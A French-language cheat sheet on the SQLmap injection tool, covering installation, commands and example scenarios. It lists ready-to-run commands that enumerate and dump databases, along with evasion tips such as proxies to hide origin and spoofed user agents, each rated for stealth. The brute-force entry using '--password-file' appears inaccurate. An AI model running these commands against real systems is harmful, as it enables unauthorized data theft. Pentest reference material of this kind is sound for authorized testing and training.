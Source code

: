 # 😁 SQLmap

#### Introduction

SQLmap est un outil open-source pour l'exploration et l'exploitation des vulnérabilités d'injection SQL. Il peut automatiser le processus d'injection SQL, ce qui en fait un outil précieux pour les pentesters et les chercheurs en sécurité.

#### Installation de SQLmap

SQLmap est généralement disponible via les dépôts de nombreuses distributions Linux ou peut être installé directement depuis le dépôt officiel.

**Installation sur Debian/Ubuntu**

1.  **Installer via `apt`** (version souvent non à jour) :

    ```bash
    sudo apt update
    sudo apt install sqlmap
    ```
2.  **Installer la dernière version depuis GitHub** :

    ```bash
    sudo apt update
    sudo apt install git
    git clone https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
    ```

    Ensuite, vous pouvez exécuter SQLmap directement à partir du répertoire `sqlmap-dev` :

    ```bash
    cd sqlmap-dev
    python sqlmap.py
    ```

**Installation sur Windows**

1. **Télécharger SQLmap** depuis le [dépôt GitHub](https://github.com/sqlmapproject/sqlmap).
2. **Décompresser l'archive**.
3.  **Exécuter SQLmap** via le terminal ou l'invite de commandes :

    ```cmd
    python sqlmap.py
    ```

#### Commandes et Options de Base

**Commande de Base pour Détecter les Vulnérabilités**

1.  **Tester une URL pour les injections SQL**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1"
    ```

    * **Explication** : `-u` spécifie l'URL de la page contenant le paramètre à tester pour les injections SQL.
    * **Discrétion** : Moyenne. Ce test peut générer du trafic réseau visible et déclencher des alertes sur les systèmes de détection d'intrusion (IDS).

**Commandes Avancées**

1.  **Spécifier un Paramètre de Cookie**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --cookie="SESSIONID=abcd1234"
    ```

    * **Explication** : `--cookie` permet de spécifier les cookies pour les sessions authentifiées ou pour tester les vulnérabilités dans un contexte de session.
    * **Discrétion** : Moyenne à élevée. Les cookies peuvent contenir des informations sensibles.
2.  **Utiliser des Données POST pour Tester les Injections**

    ```bash
    sqlmap -u "http://example.com/page.php" --data="username=admin&password=1234"
    ```

    * **Explication** : `--data` spécifie les données POST à envoyer pour tester les vulnérabilités dans les formulaires soumis.
    * **Discrétion** : Moyenne. Le test de formulaires POST peut révéler des failles dans les processus d'authentification.
3.  **Détecter et Exploiter une Vulnérabilité**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --dbs
    ```

    * **Explication** : `--dbs` demande à SQLmap de lister les bases de données disponibles une fois qu'une vulnérabilité est détectée.
    * **Discrétion** : Faible à moyenne. L'extraction de la liste des bases de données peut attirer l'attention.
4.  **Extraire des Tables et des Données**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --dbs --tables -D <database_name> -T <table_name> --dump
    ```

    * **Explication** : `--tables` liste les tables dans la base de données spécifiée, et `--dump` extrait les données de la table spécifiée.
    * **Discrétion** : Faible à élevée. L'extraction des données peut être détectée par des systèmes de journalisation et de détection.
5.  **Utiliser une Liste de Proxy**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --proxy="http://127.0.0.1:8080"
    ```

    * **Explication** : `--proxy` permet d'utiliser un proxy pour masquer l'origine des requêtes.
    * **Discrétion** : Haute. L'utilisation d'un proxy aide à masquer l'origine des tests.
6.  **Définir une Utilisation d'Agents Utilisateurs**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3"
    ```

    * **Explication** : `--user-agent` permet de spécifier un agent utilisateur pour tromper les mécanismes de filtrage basés sur l'agent utilisateur.
    * **Discrétion** : Haute. L'utilisation d'un agent utilisateur personnalisé peut contourner certaines protections.
7.  **Sauvegarder les Résultats dans un Fichier**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --output-dir="/path/to/results"
    ```

    * **Explication** : `--output-dir` spécifie le répertoire où enregistrer les résultats de l'analyse.
    * **Discrétion** : Haute. Sauvegarder les résultats permet une analyse plus approfondie hors ligne.

#### Options de Sécurité Avancées

1.  **Spécifier des Filtres pour les Requêtes**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --data="username=admin&password=1234" --exclude-sysdbs --technique=BEUSTQ
    ```

    * **Explication** : `--exclude-sysdbs` exclut les bases de données système des résultats, et `--technique` spécifie les techniques d'injection à tester.
    * **Discrétion** : Haute. Ajuster les techniques et les filtres permet de se concentrer sur des tests spécifiques.
2.  **Utiliser une Liste de Mots de Passe pour les Attaques de Brute Force**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --passwords --password-file="/path/to/passwords.txt"
    ```

    * **Explication** : `--password-file` permet d'utiliser une liste de mots de passe pour les tentatives de connexion par brute force.
    * **Discrétion** : Faible à moyenne. Les attaques par brute force peuvent générer un grand nombre de tentatives de connexion.

#### Exemples de Scénarios

1.  **Détection Simple d’Injection SQL**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1"
    ```

    * **Explication** : Teste la vulnérabilité d'injection SQL pour le paramètre `id` dans l'URL.
    * **Discrétion** : Moyenne. Ce test est généralement discret, mais peut être détecté par des IDS si les requêtes sont trop fréquentes.
2.  **Exploitation Avancée avec Extraction de Données**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --dbs --tables -D <database_name> -T <table_name> --dump
    ```

    * **Explication** : Liste les bases de données, les tables et extrait les données de la table spécifiée après avoir détecté une vulnérabilité.
    * **Discrétion** : Faible à élevée. L'extraction de données est plus intrusive et peut attirer l'attention.
3.  **Utilisation de Proxy pour Masquer l’Origine**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --proxy="http://127.0.0.1:8080"
    ```

    * **Explication** : Utilise un proxy pour acheminer les requêtes et masquer l'adresse IP d'origine.
    * **Discrétion** : Haute. Le proxy aide à cacher l'origine des tests et minimise le risque d'être détecté.
4.  **Test de Vulnérabilités avec Authentification**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --cookie="SESSIONID=abcd1234"
    ```

    * **Explication** : Inclut des cookies pour tester les vulnérabilités dans un contexte de session authentifiée.
    * **Discrétion** : Moyenne à élevée. Les tests authentifiés peuvent être plus ciblés mais nécessitent des données de session valides.

#### Discrétion et Bonnes Pratiques

1. **Obtenir des Autorisations**
   * **Assurez-vous toujours** d'avoir l'autorisation explicite pour tester les applications web.
   * **Évitez les tests non autorisés** pour éviter des implications légales et éthiques.
2. **Utiliser les Fonctionnalités de Limitation**
   * **Configurer des délais** entre les requêtes pour éviter de surcharger les serveurs et attirer l'attention.
   * **Limiter les tests** en termes de portée et de profondeur pour minimiser les impacts sur les systèmes cibles.
3. **Analyser les Réactions du Serveur**
   * **Observer les réponses des serveurs** pour ajuster les tests et éviter les dénis de service ou les perturbations.
